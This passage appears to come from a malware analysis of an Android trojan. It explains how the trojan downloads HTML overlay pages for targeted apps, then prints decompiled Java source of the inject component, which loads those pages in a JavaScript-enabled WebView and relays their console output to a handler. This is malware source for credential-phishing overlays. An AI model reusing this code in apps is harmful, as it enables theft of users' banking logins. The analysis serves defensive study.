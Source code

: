 As we see the malware will download a `zip` file contains `html` files of the targeted apps. If a targeted APP is opened then the malware will launch the `html` file of the targeted app. Located in `com.sdktools.android.bot.components.injects.system`.

```cs
public class ViewerActivityInterfaceImpl extends IScreen {
    public interface LifeCycleListener {
        boolean onPause();

        boolean onResume();
    }

 public ViewerActivityInterfaceImpl(InjectModel injectModel0) {
        this.injectModel = injectModel0;
    }

    public ViewerActivityInterfaceImpl(InjectModel injectModel0, LifeCycleListener viewerActivityInterfaceImpl$LifeCycleListener0) {
        this.injectModel = injectModel0;
        this.lifeCycleListener = viewerActivityInterfaceImpl$LifeCycleListener0;
    }

    private void handleData(Activity activity0) {
        try {
            this.webView.clearView();
            String s = this.injectModel.getInjectPath();
            s = s.startsWith("http") ? this.injectModel.getInjectPath() : "file:///" + s;
            this.webView.loadUrl(s);
            Timber.d("INJECTS -> display file: " + s, new Object[0]);
        }
        catch(Exception unused_ex) {
        }
    }

    private void init() {
        this.webView.getSettings().setDomStorageEnabled(true);
        if(Build.VERSION.SDK_INT >= 21) {
            this.webView.getSettings().setMixedContentMode(0);
        }

        com.sdktools.android.bot.components.injects.system.ViewerActivityInterfaceImpl.1 viewerActivityInterfaceImpl$10 = new WebChromeClient() {
            @Override  // android.webkit.WebChromeClient
            public boolean onConsoleMessage(ConsoleMessage consoleMessage0) {
                String s = consoleMessage0.message();
                if(!TextUtils.isEmpty(s)) {
                    String s1 = ViewerActivityInterfaceImpl.this.injectModel.getApplicationId();
                    InjectComponent.get().getConfigsProvider().getInjectHandler().handleWebViewLog(ViewerActivityInterfaceImpl.this, s1, s);
                }

                return super.onConsoleMessage(consoleMessage0);
            }
        };
        com.sdktools.android.bot.components.injects.system.ViewerActivityInterfaceImpl.2 viewerActivityInterfaceImpl$20 = new WebViewClient() {
            @Override  // android.webkit.WebViewClient
            public boolean shouldOverrideUrlLoading(WebView webView0, String s) {
                Timber.d("INJECTS -> ulr loaded: " + s, new Object[0]);
                webView0.loadUrl(s);
                return true;
            }
        };
        this.webView.getSettings().setJavaScriptEnabled(true);
```